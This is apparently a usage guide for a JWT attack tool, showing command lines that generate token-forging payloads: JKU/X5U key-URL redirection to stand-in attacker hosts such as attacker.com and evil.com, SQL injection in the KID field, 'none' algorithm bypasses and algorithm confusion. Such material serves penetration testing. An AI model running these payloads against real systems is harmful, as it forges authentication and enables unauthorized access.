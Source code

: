 ### Key URL Manipulation
```bash
# Test JKU/X5U URL attacks
jwt-hack payload <TOKEN> --target=jku --jwk-attack=attacker.com

# Host malicious JWK at attacker.com/keys.json
# Test if application fetches keys from attacker URL
```

### SQL Injection in KID
```bash
# Generate KID SQL injection payloads  
jwt-hack payload <TOKEN> --target=kid_sql

# Test each payload for SQL injection responses
# Monitor application logs for SQL errors
```

## Security Testing Workflow

### 1. Reconnaissance
```bash
# Decode token to understand structure
jwt-hack decode <TOKEN>

# Generate comprehensive payload set
jwt-hack payload <TOKEN> --target=all
```

### 2. Systematic Testing
```bash
# Test none algorithm bypasses
jwt-hack payload <TOKEN> --target=none

# Test each payload systematically
# Document responses and behaviors
```

### 3. Advanced Attacks
```bash
# Algorithm confusion (if RSA token)
jwt-hack payload <RSA_TOKEN> --target=alg_confusion

# URL manipulation attacks
jwt-hack payload <TOKEN> --target=jku --jwk-attack=controlled-domain.com
```

## Payload Customization

### Custom Domains
```bash
# Use specific attack domains
jwt-hack payload <TOKEN> --target=jku --jwk-attack=evil.hacker.com

# Bypass domain restrictions
jwt-hack payload <TOKEN> --target=x5u --jwk-trust=trusted.com --jwk-attack=evil.com
```
